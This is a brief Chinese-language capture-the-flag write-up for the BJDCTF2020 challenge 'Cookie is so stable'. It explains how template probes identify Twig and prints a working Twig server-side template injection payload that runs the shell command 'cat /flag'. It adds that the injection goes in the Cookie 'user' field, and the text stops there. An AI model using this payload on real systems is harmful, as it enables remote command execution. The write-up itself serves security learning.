

# [BJDCTF2020]Cookie is so stable

## Tag

SSTI 注入

***

## Writeup

和  [[BJDCTF2020]The mystery of ip]([BJDCTF2020]The mystery of ip) 类似，都尝试一些模板，`{{7*7}}` 和 `{{7*'7'}}` 均回显 49，为 Twig 模板，标准输入方式为：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

但是会被拒绝，根据题目可以得知需要我们将 Cookie 的 user 设置成注入：

